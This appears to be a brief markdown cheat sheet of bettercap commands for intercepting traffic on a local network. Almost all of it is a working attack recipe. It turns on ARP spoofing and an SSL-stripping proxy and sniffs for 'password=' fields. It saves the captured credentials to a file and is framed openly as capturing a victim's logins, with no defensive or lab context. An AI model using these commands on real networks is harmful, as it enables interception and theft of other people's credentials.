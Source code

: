 # bettercap
- Start:
```bash
bettercap -iface _your_interface_
```
- - Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 0.0.0.0
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
arp.spoof on
http.proxy on
net.sniff on
```
-----------------------------------------------------------

# Password sniff
```bash
set net.sniff.regexp .*password=.+
set net.sniff.output passwords.cap
```
# start arp spoofing attack
- Optional
```bash
# arp.spoof on
```
```bash
net.sniff on
```
# Good luck ;)
